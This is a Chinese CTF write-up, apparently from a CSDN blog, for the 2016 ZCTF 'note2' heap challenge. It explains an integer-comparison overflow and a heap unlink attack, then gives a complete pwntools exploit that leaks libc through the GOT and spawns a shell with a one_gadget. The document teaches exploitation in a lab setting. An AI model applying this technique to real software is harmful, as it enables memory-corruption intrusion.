



<!--yml
category: 未分类
date: 2022-04-26 14:33:58
-->

# 2016 ZCTF note2 题解_coco##的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_38419913/article/details/103333195](https://blog.csdn.net/weixin_38419913/article/details/103333195)

# 程序分析

先查看程序开启的保护，可以看到没有开启PIE。并且也是一个经典的菜单程序。


## new note函数


可以看到，我们一共能申请四个堆块，堆块的指针，数量都存储在bss端上。我们能申请超过0x80的堆块，并在其中写入内容，这里的大小被限制了。但是我们进入my_read函数后就能发现for循环的条件中，size为int类型，而i是unsigned int类型。我们都知道，在c语言中，无符号变量和有符号变量比较时，会将有符号变量转化为无符号变量来比较。所以这里size为0的时候。(unsigned int)(size-1)就就是非常大的整数，所以for循环永远成立，这里的输入长度限制就被突破了。


## show note

输入index，如果index值大小合法并且，对应的指针不为空，就打印出对应的内容。


## edit note

重新编辑note中的内容，但是不能超过之前规定的size限制。

## delete note

free note的堆块，并且把指向堆块的指针置空并且把size也置为0。

# 利用思路

由于申请的堆块数量有严格的限制（4块），并且堆块的指针放在bss段上，能知道指针的地址，所以考虑用unlink。

先设计好理想的unlink时堆块的状态，其中要free的是chunk2，在进行后向合并时，对fake chunk P进行unlink。最后的结果是让ptr0指向&ptr0-0x18。

为了完成如上图的堆块结构。chunk0内的fake chunk可以在一开始调用new note的时候就直接完成。chunk2的pre_size和size字段则需要chunk1溢出来完成。
具体的就是申请完chunk0，chunk1，chunk2之后，free掉chunk1，使之进入fastbin中，再申请回来。由于new note的任意长度写的漏洞，使得溢出chunk1从而修改chunk2的头部成为可能。

```
ptr_0 = 0x602120
fake_fd = ptr_0 - 0x18
fake_bk = ptr_0 - 0x10
note0_content = "\x00" * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
new_note(0x80, note0_content) 
new_note(0x0, "aa") 
new_note(0x80, "bb") 

delete_note(1)
note1_content = "\x00" * 16 + p64(0xa0) + p64(0x90)
new_note(0x0, note1_content)

delete_note(2) 
```

unlink完成之后，就可以容易的进行libc地址的泄漏和get shell。

```
 free_got = e.got["free"]
payload = 0x18 * "a" + p64(free_got)
edit_note(0, 1, payload)

show_note(0)
io.recvuntil("is ")

free_addr = u64(io.recv(6).ljust(8, "\x00"))
libc_addr = free_addr - libc.symbols["free"]
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
one_gadget = libc_addr + 0xf02a4
edit_note(0, 1, p64(one_gadget)) 
```

# 完整的exp

```
 from pwn import *
import binascii

DEBUG = 0
io = process("./pwn")
e = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if DEBUG == 1:
    context.log_level = "debug"
    context.terminal = ["/usr/bin/tmux", "splitw", "-h", "-p", "70"]

def new_note(size, content):
    io.recvuntil(">>")
    io.sendline("1")
    io.recvuntil(")")
    io.sendline(str(size))
    io.recvuntil(":")
    io.sendline(content)

def show_note(index):
    io.recvuntil(">>")
    io.sendline("2")
    io.recvuntil(":")
    io.sendline(str(index))

def edit_note(index, choice, content):
    io.recvuntil(">>")
    io.sendline("3")
    io.recvuntil(":")
    io.sendline(str(index))
    io.recvuntil("]")
    io.sendline(str(choice))
    io.recvuntil(":")
    io.sendline(content)

def delete_note(index):
    io.recvuntil(">>")
    io.sendline("4")
    io.recvuntil(":")
    io.sendline(str(index))

io.recvuntil(":")
io.sendline("/bin/sh") 
io.recvuntil(":")
io.sendline("ddd")

ptr_0 = 0x602120
fake_fd = ptr_0 - 0x18
fake_bk = ptr_0 - 0x10
note0_content = "\x00" * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
new_note(0x80, note0_content) 
new_note(0x0, "aa") 
new_note(0x80, "bb") 

delete_note(1)
note1_content = "\x00" * 16 + p64(0xa0) + p64(0x90)
new_note(0x0, note1_content)

delete_note(2) 

free_got = e.got["free"]
payload = 0x18 * "a" + p64(free_got)
edit_note(0, 1, payload)

show_note(0)
io.recvuntil("is ")

free_addr = u64(io.recv(6).ljust(8, "\x00"))
libc_addr = free_addr - libc.symbols["free"]
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
one_gadget = libc_addr + 0xf02a4
edit_note(0, 1, p64(one_gadget)) 

io.interactive() 
```